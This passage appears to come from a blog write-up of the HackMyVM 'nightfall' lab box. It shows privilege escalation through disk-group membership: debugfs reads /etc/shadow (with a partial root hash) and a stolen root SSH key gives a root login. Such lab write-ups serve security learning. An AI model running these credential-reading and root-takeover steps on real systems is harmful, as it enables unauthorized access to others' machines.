 # etc
{% endhighlight %}

Once we're on the box we are in the **disk** group which is basically [game over](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe#disk-group):

{% highlight shell %}
abraham@nightfall:/$ /usr/sbin/debugfs
debugfs 1.44.5 (15-Dec-2018)
debugfs:  open /dev/sda1
debugfs:  cd /root
debugfs:  cat /etc/shadow
root:$6$cvC6xeyCAeGMOtO2$Vi6Eh # etc
{% endhighlight %}

In this case there is a root SSH key which we can read and use to SSH in:

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/nightfall]
└─# ssh -i root_key root@192.168.1.145
Last login: Sun Jun 20 11:42:37 2021 from 192.168.0.28
root@nightfall:~# id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
nightfall
Fri 04 Feb 2022 01:10:02 AM CET
root@nightfall:~#
{% endhighlight %}

Also I 'upgraded' to Windows 11 (I had to switch to UEFI, MBR2GPT and enable TPM) and I'm not sure if I am pleased I did or not...
